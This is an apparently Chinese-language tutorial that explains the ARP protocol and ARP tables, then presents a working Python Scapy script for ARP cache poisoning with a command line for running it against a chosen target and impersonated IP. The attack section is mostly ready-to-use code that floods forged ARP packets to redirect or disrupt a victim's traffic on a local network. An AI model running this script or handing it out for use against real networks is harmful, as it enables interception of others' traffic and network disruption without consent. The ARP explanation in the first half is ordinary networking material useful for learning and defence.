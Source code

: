 # 1. ARP

## 1.1 ARP协议
(Address Resolution Protocol) 地址解析协议, 是介于2层和3层的一中协议.
机器A向机器B发送消息:
A以广播形式询问所有机器(xx.xx.xx.0/24)B机器IP对应的MAC地址, 当B收到请求后, 会回复自己的MAC地址给A. 这种发送消息的方式为ARP请求/ARP广播
A将数据帧发送给网关, 由网关转发给B
## 1.2 ARP表
为了避免每次要向机器发送信息时都必须发送 ARP 广播, 用ARP表来缓存ip信息
查询命令:
```python
windows: arp -a
linux: arp -an
```
# 2. ARP攻击

利用Python的Scapy模块
```python
#!/usr/bin/python3

# Python script for ARP Cache Poisoning
import sys

from scapy.all import *

def get_mac_address():
    my_macs = [get_if_hwaddr(i) for i in get_if_list()]
    for mac in my_macs:
        if(mac != "00:00:00:00:00:00"):
            return mac

Timeout = 2

if len(sys.argv) != 3:
    print("Usage: arp_attack.py HOST_TO_ATTACK HOST_TO_IMPERSONATE")
    sys.exit(1)

my_mac = get_mac_address()
if not my_mac:
    print("Can not get local MAC address, quitting")
    sys.exit(1)

packet = Ether()/ARP(op="who-has", hwsrc=my_mac, psrc=sys.argv[2], pdst=sys.argv[1])

sendp(packet, loop=1, inter=0.2)
```
执行:
```
python arp_attakc.py 攻击IP 设置IP
```
